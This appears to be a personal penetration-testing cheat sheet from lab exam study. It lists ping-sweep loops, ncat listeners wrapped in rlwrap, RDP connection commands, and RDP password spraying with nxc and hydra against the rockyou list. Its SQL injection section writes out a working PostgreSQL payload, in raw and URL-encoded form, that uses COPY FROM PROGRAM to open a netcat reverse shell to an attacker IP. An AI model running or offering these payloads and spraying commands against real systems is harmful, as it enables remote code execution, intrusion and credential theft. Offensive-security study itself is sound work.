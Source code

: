 
## Ping Sweep
```bash
#### taken from John Hammond - How To Pivot Through a Network with Chisel, https://www.youtube.com/watch?v=pbR_BNSOaMk&t=1878s
# linux 
for i in $(seq 254); do ping 1.1.1.${i} -c1 -W1 & done | grep from

# Windows 
1..254 | ForEach-Object -Parallel {
    if (Test-Connection -TargetName "192.168.1.$_" -Count 1 -Quiet -TimeoutSeconds 1) {
        Write-Host "Host 192.168.1.$_ is up." -ForegroundColor Green
    }
}
```
## RLWRAP
* rlwrap is a wrapper program that adds the features  to programs that don't natively have them
* NCAT, upgraded NC version, supports reconnect, SSL
```bash
rlwrap ncat -nvlp <port>
rlwrap --prompt-colour=red --complete-filenames --ansi-colour-aware --history-no-dupes 2 --logfile <logfile> --remember ncat -nvlp <port>
```
## SQLi
### PostGress
```shell
# Use for RevShell SQLi, add leading single quote ' - CHP 10, Q6, Blind SQL 
 ; DROP TABLE IF EXISTS commandexec ; CREATE TABLE commandexec(data text) ; COPY commandexec FROM PROGRAM '/usr/bin/nc.traditional -e /bin/sh 192.168.45.245 443' ; -- 

 # Optionally URL encode with Burp, height was entry point for this SQLi
  weight=1&height='%3bDROP+TABLE+IF+EXISTS+commandexec%3bCREATE+TABLE+commandexec(data+text)%3bCOPY+commandexec+FROM+PROGRAM+'/usr/bin/nc.traditional+-e+/bin/sh+192.168.45.241+4444'%3b--&age=24&gender=Male&email=test%40offsec.com  
```
- Resources
- https://pentestmonkey.net/category/cheat-sheet/sql-injection 
- https://www.advania.co.uk/blog/security/mysql-sql-injection-practical-cheat-sheet/
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection
- https://portswigger.net/web-security/sql-injection/cheat-sheet 
- https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html
- https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-mysql.html 
## RDP
```bash
# Connect with a mapped network drive!!!!
xfreerdp3/drive:KALI_PWK,/home/kali/pwk   /u:user  /p:'Pass' /v:192.168.IP  

# try switches /auto-reconnect /compression /size:90%
xfreerdp3 /drive:KALI_PWK,/home/kali/Documents/pwk  /cert:ignore /auto-reconnect-max-retries:3 /size:90% /u:user  /p:'Pass' /v:192.168.IP  

# RDP password spraying with custom user list, nxc is supposed to be better for RDP 
nxc rdp 192.168.110.227 -u 'nadine' -p "$rockyou" --ignore-pw-decoding

hydra -L users.txt -p "SuperS3cure1337#" rdp://192.168.168.202  

# Other various connection options
sudo rdesktop -u USERNAME -p PASSWORD -g 90% -r disk:local="/home/kali/Desktop/" IP-ADDRESS
rdesktop -u USERNAME -p PASSWORD -a 16 -P -z -b -g 1280x860 IP_ADDRESS
```

